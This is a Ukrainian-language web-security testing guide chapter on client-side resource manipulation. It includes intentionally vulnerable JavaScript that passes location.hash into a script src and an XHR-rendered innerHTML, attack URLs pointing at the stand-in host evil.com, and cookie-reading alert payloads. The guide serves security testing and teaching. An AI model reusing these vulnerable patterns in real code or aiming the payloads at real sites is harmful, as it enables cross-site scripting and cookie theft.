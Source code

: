 # Тестування маніпуляції ресурсами на стороні клієнта
### Резюме
Уразливість маніпулювання ресурсами на стороні клієнта є помилкою перевірки вхідних даних. Це відбувається, коли програма приймає керований користувачем вхід, який визначає шлях до ресурсу, наприклад джерело iframe, JavaScript, аплет або обробник XMLHttpRequest. Ця вразливість полягає в здатності контролювати URL-адреси, які посилаються на деякі ресурси, присутні на веб-сторінці. Вплив цієї вразливості різний, і зазвичай вона використовується для проведення атак XSS. Ця вразливість дає змогу втручатися в очікувану поведінку програми, змушуючи її завантажувати та відтворювати шкідливі об’єкти.

Наведений нижче код JavaScript показує можливий вразливий сценарій, у якому зловмисник може контролювати location.hash (джерело), ​​який досягає атрибута src елемента сценарію. Цей окремий випадок призводить до атаки XSS, оскільки зовнішній JavaScript може бути ін’єктований.

```html
<script>
    var d = document.createElement("script");
    if (location.hash.slice(1)) {
        d.src = location.hash.slice(1);
    }
    document.body.appendChild(d);
</script>
```

Зловмисник може націлитися на жертву, змусивши її відвідати цю URL-адресу:

www.victim.com/#http://evil.com/js.js

Де js.js містить:
```html
alert(document.cookie)
```
Це спричинило б спливаюче сповіщення у браузері жертви.

Більш шкідливий сценарій передбачає можливість контролю URL-адреси, викликаної в запиті CORS. Оскільки CORS дозволяє домену-запиту отримати доступ до цільового ресурсу за допомогою підходу на основі заголовка, зловмисник може попросити цільову сторінку завантажити шкідливий вміст з її власного веб-сайту.

Ось приклад уразливої ​​сторінки:
```html
<b id="p"></b>
<script>
    function createCORSRequest(method, url) {
        var xhr = new XMLHttpRequest();
        xhr.open(method, url, true);
        xhr.onreadystatechange = function () {
            if (this.status == 200 && this.readyState == 4) {
                document.getElementById('p').innerHTML = this.responseText;
            }
        };
        return xhr;
    }

    var xhr = createCORSRequest('GET', location.hash.slice(1));
    xhr.send(null);
</script>
```
Location.hash контролюється введенням користувача та використовується для запиту зовнішнього ресурсу, який потім буде відображено через конструкцію innerHTML. Зловмисник може попросити жертву відвідати таку URL-адресу:

www.victim.com/#http://evil.com/html.html

З обробником корисного навантаження для html.html:
```html
<?php
header('Access-Control-Allow-Origin: http://www.victim.com');
?>
<script>alert(document.cookie);</script>
```
### Цілі тесту
- Визначте приймачі зі слабкою перевіркою вхідних даних.
- Оцініть вплив маніпулювання ресурсами.
### Як тестувати
Щоб вручну перевірити наявність такого типу вразливості, ми повинні визначити, чи використовує програма вхідні дані без їх належної перевірки. Якщо так, ці вхідні дані знаходяться під контролем користувача і можуть використовуватися для визначення зовнішніх ресурсів. Оскільки існує багато ресурсів, які можна включити в програму (наприклад, зображення, відео, об’єкти, css та iframe), клієнтські сценарії, які обробляють пов’язані URL-адреси, слід досліджувати на наявність потенційних проблем.

У наступній таблиці показано можливі точки впорскування (заглиблення), які слід перевірити:

|  Тип ресурсу    | Tag/Method               | Sink   |
|-----------------|--------------------------|--------|
| Frame           | `iframe`                 | `src`  |
| Link            | `a`                      | `href` |
| AJAX Request    | `xhr.open(method, [url], true);` | `URL`  |
| CSS             | `link`                   | `href` |
| Image           | `img`                    | `src`  |
| Object          | `object`                 | `data` |
| Script          | `script`                 | `src`  |

Найбільш цікавими є ті, які дозволяють зловмиснику включити клієнтський код (наприклад, JavaScript), який може призвести до вразливості XSS.
